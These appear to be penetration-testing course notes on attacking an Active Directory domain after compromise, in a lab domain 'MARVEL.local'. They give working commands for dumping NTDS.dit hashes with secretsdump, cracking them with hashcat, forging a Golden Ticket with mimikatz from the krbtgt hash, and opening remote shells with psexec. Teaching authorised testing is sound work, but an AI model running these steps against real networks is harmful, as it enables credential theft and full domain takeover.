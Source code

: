 
##   Post-Domain Compromise Attack Strategy
###### We own the Domain Now What?
- Provide as much value to the client as possible
	- Put your blinders on and do it again
	- Dump the NTDS.dit and crack passwords
	- Enumerate shares for sensitive information
- Persistence can be important
	- What happens if our DA access is lost?
	- Creating a DA account can be useful (DO NO FORGOT TO DELETE IT)
	- Creating a Golden Ticket can be useful, too.

##   Dumping the NTDS.dit
- What is it?
	- A database used to store AD data. This data includes:
		- User information
		- Group information
		- Security descriptors
		- password hashes
- `secretsdump.py MARVEL.local/hawkeye:'Password@1'@10.0.2.15 -just-dc-ntlm` -- it will dump ntds.dit of DA
- `hascat -m 1000 hashes.txt /path/to/rockyou.txt`

##   Golden Ticket Attacks 
- What is it?
	- When we compromise the krbtgt account, we own the domain
	- We can request access to any resource or system on the domain
	- Golden tickets == complete access to every machine
- To perform we need mimkatz.exe on windows (target system)
	- `mimikatz.exe`
	- `privilege::debug` -- if gives Privilege '20' ok then you have required privilege in order to perform hash extraction from memory
	- `lsadump::lsa /inject /name:krbtgt`
	- now from the output we need sid of domain, NTLM hash of krbtgt
	- `kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID] /krbtgt:[NTLM] /id:500 /ptt`
	- `misc::cmd` -- this will open new cmd
		- `dir \\User-1\c$`
		- `psexec.exe \\User-1 cmd.exe`